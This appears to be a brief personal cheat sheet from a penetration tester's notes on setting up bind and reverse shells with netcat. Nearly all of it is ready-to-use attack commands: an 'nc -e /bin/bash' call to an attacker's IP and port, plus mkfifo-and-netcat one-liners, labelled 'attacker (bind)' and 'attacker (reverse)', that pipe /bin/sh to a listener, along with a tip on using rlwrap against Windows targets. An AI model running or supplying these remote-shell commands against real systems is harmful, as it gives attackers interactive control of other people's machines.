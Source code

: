setup bind/reverse netcat
NOTE: use rlwrap when dealing with windows

must have listener already setup
```
nc <ip address> <port> -e /bin/bash
```
OR

![file:///tmp/.3I5P42/1.png](file:///tmp/.3I5P42/1.png)

OR

attacker (bind):
```
### mkfifo /tmp/f; nc -lvnp <lport> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

attacker (reverse):
```
### mkfifo /tmp/f; nc <lhost> <lport> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```